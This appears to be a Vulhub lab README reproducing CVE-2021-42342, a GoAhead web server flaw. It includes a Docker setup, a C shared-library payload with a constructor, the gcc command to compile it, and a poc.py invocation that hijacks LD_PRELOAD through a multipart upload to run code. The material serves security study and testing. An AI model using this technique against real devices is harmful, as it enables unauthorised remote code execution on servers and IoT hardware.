

# GoAhead Web Server Environment Variables Injection and 'LD_PRELOAD' Remote Code Execution (CVE-2021-42342)

[中文版本(Chinese version)](README.zh-cn.md)

An issue was discovered in GoAhead 4.x and 5.x before 5.1.5. In the file upload filter, user form variables can be passed to CGI scripts without being prefixed with the CGI prefix. This permits tunneling untrusted environment variables into vulnerable CGI scripts.

Attacker can use this feature to upload their shared object payload in the multipart form and hijack the `LD_PRELOAD` environment variable to execute arbitrary code.

This vulnerability is the patch bypass of the [CVE-2017-17562](https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562).

References:

- https://github.com/vulhub/vulhub/tree/master/goahead/CVE-2017-17562
- https://ahmed-belkahla.me/post/2-methods-rce-0-day-in-goahead-webserver-pbctf-2021/
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg

## Vulnerable environment

Execute following commands to start a GoAhead 5.1.4:

```
docker-compose up -d
```

Then, you can see the welcome page at `http://your-ip:8080`, CGI scripts is available at `http://your-ip:8080/cgi-bin/index`.

## Exploit

First of all, compile this hijack code to a dynamic shared library:

```C
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World\r\n\r\n", 16);
    write(1, "Hacked\n", 7);
}
```

> Please notice that, since GoAhead is a compact embedded webserver running on almost any possible IoT device, the format of dynamic shared library is always depending on the target server architecture. In the real world, compiling exploits is not as easy as this manual suggests, although Vulhub could show you a simplest example.

Compile on a x86/64 environment:

```
gcc -s -shared -fPIC ./payload.c -o payload.so
```

Then, we are using [this script](poc.py) to reproduce the vulnerability.

```
python poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

Hijack is successful:


